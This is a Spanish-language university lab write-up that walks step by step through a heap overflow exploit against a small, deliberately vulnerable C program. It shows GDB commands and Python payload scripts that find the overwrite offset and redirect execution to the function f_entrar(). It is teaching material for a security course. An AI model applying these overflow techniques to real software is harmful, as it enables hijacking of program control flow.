


# MUIC - DPS - Laboratorio 5 - Heap Overflow Example

En esta practica se presenta un pequeño y sencillo programa con el que lograr un exploit basado en Heap Overflow. 

Este exploit basado en malloc para Heap difiere del que podemos realizar para vulnerar la parte Stack de la pila. El Heap de un programa suele ser controlado por las librerías de C, encontrando como principales funciones malloc() y free(). El Heap está dividido en grupos de bloques libres de mismo tamaño, y en cada grupo los bloques están organizados mediante  listas doblemente unidas/ligadas. En el Heap, por temas de eficiencia, los punteros fd y bd (forward/backward) que mantienen las listas dobles ligadas son almacenados en el incio de cada bloque libre.

## Paso 1
Compilamos y corremos el programa:
```
gcc heapOverflow.c -o heapOverflow.o -w -g -no-pie -z execstack
./heapOverflow.o Hola
./heapOverflow.o XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX    #(+64 characters)
```


## Paso 2
Mediante el uso del debugger GDB, observamos el funcionamiento de nuestro programa:
```
gdb ./heapOverflow.o    #Corremos GDB
(gdb) list 47,60        #Listamos el código de las líneas 47 a 60
(gdb) b 59              #Ponemos un breakpoint en la línea 59
```


```
(gdb) run XXXX
(gdb) info proc map
```


Ahora, intentamos ver el estado del Heap:
```
(gdb) x/480x 0x405000   #0x405000 es la dirección base del Heap en mi caso
                        #x/480x es para ver 480 bytes en hexadecimal, no pude con vemos observar el XXXX en el Heap
``` 


XXXX -> 0x58585858 -> 0x4052a0 dirección en memoria


Observamos $rbp: 0x0040116c -> 0x4052f0 dirección en memoria

## Paso 3
Tratamos de analizar el comportamiento del sistema cuando hacemos uso del exploit de la localización en memoria. Para ello creamos un simple programa en python:
```python
#!/usr/bin/python
print("X"*90)
```

Procedemos a dar permisos de ejecución y corremos el programa en C pasandole como argumento el script creado:
```
chmod a+x python1.py
./heapOverflow.o $(./python1py)
```


## Paso 4
Comprobamos el estado del registro $rip (instruction pointer). Primero, creamos un nuevo exploit, para cargar menos caracteres (80 en total):
```python
#!/usr/bin/python
print("X"*70 + "YAYBYCYDYEYFYG")
```
Procedemos a dar permisos de ejecución como anteriormente hicimos y debugeamos el programa:
```
gdb -q ./heapOverflow.o     #-q para que no muestre el banner de bienvenida
(gdb) run $(./python2.py)   #Corremos el programa con el exploit
(gdb) info registers        #Mostramos los registros
(gdb) q                     #Salimos del debugger
(gdb) y                     #Para confirmar la salida de gdb
```
Observamos el valor de $rip: GYFY -> 0x47594659


No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. Por eso es mejor realizar lo siguiente:

```python
#!/usr/bin/python
print("X"*80 + "CDEF")
```

Procedemos como anteriormente y observamos el valor de $rip: CDEF -> 0x46454443


Disassembling de la función f_entrar():


## Paso 5
De la foto anterior, podemos observamos que el registro $rbp (base pointer) apunta a la dirección 0x00401156. Por lo tanto, podemos realizar un exploit que nos permita modificar el valor de $rbp y así poder controlar el flujo de ejecución del programa. Para ello, creamos un nuevo exploit:
```python
#!/usr/bin/python
print("X"*80 + "\x56\x11\x40\x00")
```

Y lo ejecutamos:
```
./heapOverflow.o $(./python4.py)
```

Finalmente obtenemos lo siguiente:



Hemos conseguido así acceder a la función f_entrar() accediendo desde su posición en memoria.